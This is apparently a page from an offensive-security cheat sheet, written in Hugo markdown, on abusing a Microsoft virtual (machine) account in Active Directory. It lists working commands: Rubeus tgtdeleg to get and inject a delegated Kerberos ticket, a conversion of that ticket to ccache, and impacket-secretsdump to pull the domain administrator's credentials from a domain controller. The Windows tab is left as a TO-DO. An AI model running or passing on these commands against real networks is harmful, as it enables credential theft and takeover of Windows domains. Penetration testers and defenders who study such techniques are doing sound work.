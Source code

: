 ```yaml
---
title: "Machine Account"
date: 2024-8-1
tags: ["machine account", "Microsoft virtual account", "active directory", "ad", "domain controller", "Windows", "rubeus", "kerberos"]
---
```


### Abuse #1: Microsoft virtual account

#### 1. Create a ticket from Microsoft virtual account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
.\rubeus.exe tgtdeleg /nowrap /ptt
```

</div>

{{< /tabcontent >}}

#### 2. Secrets Dump

{{< tab set2 tab1 active >}}Linux{{< /tab >}}
{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 3. Convert kirbi to ccache

<div>

```console
python3 rubeustoccache.py <BASE64_TICKET> secrets.kirbi secrets.ccache
```

</div>

#### 4. Secrets Dump

<div>

```console
export KRB5CCNAME=secrets.ccache
```

```console
sudo ntpdate -s <DC> && impacket-secretsdump -k -no-pass -just-dc-user administrator
```

</div>

<small>*Ref: [RubeusToCcache](https://github.com/SolomonSklash/RubeusToCcache)*</small>

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. TO-DO

<div>

```console
TO-DO
```

</div>


{{< /tabcontent >}}

<br>
